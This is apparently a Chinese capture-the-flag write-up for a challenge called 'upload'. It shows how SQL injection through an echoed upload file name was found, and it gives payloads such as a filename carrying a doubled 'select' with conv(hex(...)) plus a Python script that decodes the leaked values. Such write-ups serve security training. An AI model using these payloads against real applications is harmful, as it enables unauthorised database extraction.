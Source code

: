 cyberpeace{955bb6e63c29755aeb2f36fc33b3b57f}

### upload

收获:这题的收获还是很大的,第一次了解还有这种注入

翻翻题目的页面,登入,注册,上传,扫目录发现没啥。

根据题目的名称直接跑去测试上传，只能上传.jpg后缀,并且没有文件地址,所以这个如果真的是文件上传漏洞,估计要用auto_prepared_file来，但是只能.jpg后缀。

于是我就跑去测试登入和注册界面尝试能否sql注入,结果都凉凉,看了一眼题目想起了会回显文件名,猜测这里就是题目给我们的注入点。

猜测sql语句,刚开始没有进行这一步,然后试到自闭,

```
sql="insert into xxx (xxxx....) values ('xxx','xxx'...)"
sql2="select * from where uuid=xxxxxx"

```

因为uuid在session里,不可注,所以注第一个

因为payload=`'.jpg`时,无回显,所以值是包在`''`之间的,又因为我们不知道value到底有几个值,所以用hex()与`''`相加成为一个新的值

payload=`a'+conv(hex((selselectect '123')),16,10)+'.jpg`

这边转为十进制的原因是:mysql将字符串转为数字时将其视为10进制数据

![](https://s2.ax1x.com/2019/08/29/mbhnzQ.png)

这个是123的十进制表示

接下来就是普通的sql注入了

```python

def dec_to_result(table):
        result=''
        for i in table:
                num=hex(i)
                for j in range(2,len(num),2):
                        print(num[j:j+2])
                        result+=chr(int(num[j:j+2],16))
        return result
table=[439855375731,190730038380,478341917793,443982377823,448378594604,469853102693,29299]
table_result="files,hello_flag_is_here,members"
column=[452571786591,1718378855]
column_result="i_am_flag"
content=[142293811309,409438006885,409198488673,103]
print(dec_to_result(content))
```

#### 解法二

猜测insert into 的结构为 insert into xxx (xx,xx,xx) values ('xx',uuid,uuid)然后

payload=`hello',1660,1660)#.jpg`

出现回显!!!
